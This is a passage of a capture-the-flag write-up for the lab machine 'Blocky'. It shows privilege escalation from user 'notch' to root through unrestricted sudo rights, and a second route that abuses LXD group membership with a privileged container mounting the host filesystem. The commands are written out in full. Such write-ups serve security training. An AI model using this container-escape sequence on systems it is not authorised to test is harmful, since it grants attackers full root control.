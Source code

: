Success! SSH access as `notch` and the user flag.

## Privesc: `notch` to `root`

Instead of running linpeas, I started manually enumerating. This box has been easy so far, so thought I would try looking myself.

```none
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

This is an easy win as we can just switch to the `root` user.

```none
notch@Blocky:~$ sudo su root
root@Blocky:/home/notch# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:/home/notch# wc -c /root/root.txt
32 /root/root.txt
```

## Extra Privesc: `notch` to `root` using LXD

A while ago I did a box where the user was in the `lxd` group. This means you can get root, as per the [HackTricks article on lxd/lxc Group - Privilege escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) article. Thought I might try this again for some practice.

On my machine, I built an Alpine image as per the instructions.

```none
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686
```

After this, you get an archive to upload to the target machine.

```none
lxc image import ./alpine*.tar.gz --alias myimage
```

For the next command, the article recommends you run `lxd init` before proceeding. However, I was getting as `error: This must be run as root`. I didn't want to use the `sudo` access if I didn't have to, so skipped this step, and continued with the instructions.

```none
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh
```
